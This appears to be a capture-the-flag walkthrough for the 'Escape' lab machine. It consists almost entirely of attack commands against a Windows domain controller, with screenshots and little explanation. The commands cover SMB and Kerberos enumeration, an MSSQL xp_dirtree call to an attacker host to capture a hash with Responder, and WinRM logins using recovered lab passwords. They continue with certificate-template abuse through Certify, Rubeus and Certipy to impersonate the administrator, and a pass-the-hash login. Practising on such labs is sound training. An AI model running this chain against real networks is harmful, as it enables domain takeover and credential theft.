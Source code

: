 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.202
dc.sequel.htb
```
![image](https://github.com/user-attachments/assets/9263ebf5-8f7b-407d-baa3-e3a46e8540af)

```
smbclient -L \\\\10.10.11.202\\
smbclient \\\\10.10.11.202\\Public
```
![image](https://github.com/user-attachments/assets/f31422ee-e143-4d2a-bef8-505127c28203)

```
python3 -m http.server 80
http://10.10.14.6/SQL%20Server%20Procedures.pdf
PublicUser | GuestUserCantWrite1
```
![image](https://github.com/user-attachments/assets/dd949602-8c3c-435d-b04e-0dc1ecb8d7ff)

```
./kerbrute_linux_amd64 userenum --dc 10.10.11.202 -d sequel.htb users_0
```
![image](https://github.com/user-attachments/assets/53c9d8de-3ef7-4c76-a88d-b3c09f6caa53)

```
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
```
![image](https://github.com/user-attachments/assets/c4f31852-f910-4641-a631-8489f6023ac7)

```
responder -I tun0 -v
EXEC MASTER.sys.xp_dirtree '\\10.10.14.6\test', 1, 1
REGGIE1234ronnie (sql_svc)
```
![image](https://github.com/user-attachments/assets/bb0b8250-4cd0-463a-8fd9-0bd1882b66c2)

![image](https://github.com/user-attachments/assets/eabb3ae2-1343-47d2-8742-7f235c1acd67)

```
crackmapexec winrm 10.10.11.202 -u users_3 -p REGGIE1234ronnie --continue-on-success
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
![image](https://github.com/user-attachments/assets/a62a4cdd-c228-493f-8bde-caa93695ebca)

![image](https://github.com/user-attachments/assets/78b2d28d-f869-4b04-8b55-2ec48b8db114)

```
upload winPEASany.exe
./winPEASany.exe
```
![image](https://github.com/user-attachments/assets/170c7e63-ac22-43db-896d-fae7a896190b)

```
type C:\sqlserver\Logs\ERRORLOG.bak
```
![image](https://github.com/user-attachments/assets/53099c6d-e9cb-4d4a-8606-fa52dea217f3)

![image](https://github.com/user-attachments/assets/cd62b77f-eaad-4fbc-9e40-d95f595cb14e)

```
crackmapexec winrm 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/bb11ad81-6b7a-4469-a77a-b9f5db898f5a)

```
evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/95b9055c-951e-4a11-855b-ee410f182df7)

```
Download Certify.exe https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any
upload Certify.exe
.\Certify.exe find /vulnerable /currentuser
```
![image](https://github.com/user-attachments/assets/291c9e18-5898-42e1-af69-1827741ff159)

![image](https://github.com/user-attachments/assets/982539d6-95a6-4b91-8d6a-9c1b6c695ca4)

```
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```
![image](https://github.com/user-attachments/assets/2a436b62-2ab5-48d8-94f7-4b6af84b6493)

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter no password
```
![image](https://github.com/user-attachments/assets/0bde621d-fe4b-493d-9f38-3ece278b7e9b)

```
upload cert.pfx
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx
```
![image](https://github.com/user-attachments/assets/6a4ab877-c5ea-4fef-9ce5-4da8f5eee66a)

```
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```
![image](https://github.com/user-attachments/assets/39fbe789-1258-426c-ae50-07de66d154c6)


```
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```
![image](https://github.com/user-attachments/assets/9a786f1d-7388-4793-9eb6-318c435f64df)

# OR1
```
git clone https://github.com/ly4k/Certipy.git
python3 setup.py install
Certipy
```
![image](https://github.com/user-attachments/assets/1bf7e649-bcca-4ca8-9648-5670bfe5b0ed)

```
certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target 10.10.11.202 -template UserAuthentication -upn Administrator@sequel.htb -dns dc.sequel.htb -debug
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/801fdd01-029e-4076-b95c-ae91c65661a7)

```
sudo service virtualbox-guest-utils stop
sudo ntpdate -s 10.10.11.202
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/1327812c-7770-4ad0-bddf-bf280b2d149d)

```
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```
![image](https://github.com/user-attachments/assets/2f8c2ee8-2536-4e1f-87dc-2628f7ee26e2)

# OR2
```
certipy req -u ryan.cooper -p NuclearMosquito3 -target 10.10.11.202 -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.202
```
![image](https://github.com/user-attachments/assets/165e8554-4d93-4dca-8b36-1b5cb4191337)
